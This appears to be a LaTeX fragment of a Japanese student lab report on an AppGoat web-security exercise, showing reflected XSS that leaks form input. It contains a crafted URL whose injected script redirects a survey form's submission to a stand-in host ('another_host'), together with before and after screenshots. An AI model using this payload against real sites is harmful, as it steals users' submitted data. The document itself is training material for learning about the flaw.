 \documentclass[dvipdfmx,autodetect-engine,titlepage]{jsarticle}
\begin{document}
\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    \includegraphics[keepaspectratio,scale=0.32]{web5.png}
    \end{center}
    \caption{実行前の画面}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    \includegraphics[keepaspectratio,scale=0.33]{web6.png}
    \end{center}
    \caption{実行後の画面}
  \end{minipage}
\end{figure}

\subsection{入力情報の漏洩(反射型)}
投稿ボタンをクリックすると、ポップアップダイアログによって送信先を表示するようなアンケートページにおいて、送信先を変更するようなスクリプトを含むURLを作成し、名前欄に見つかった反射型の脆弱性を利用してスクリプトを実行させた。入力したURLは「\url{http://appgoat.cysec-lab.org/Users/is0550kr/Web/Scenario1122/VulSoft/enquete.php?page=2&sex=0&old=1&company=&xss=1&trouble=1&content=&name=<script>document.getElementById("enquete_form").action="http://another_host/private_info_storage.php";</script>
}」である。\\\\
下の図7,8はそれぞれ実行前と実行後で、表示されたポップアップをキャプチャしたものである。内容を見ると送信先のURLが書きかわっていることが確認できる。\\
\end{document}
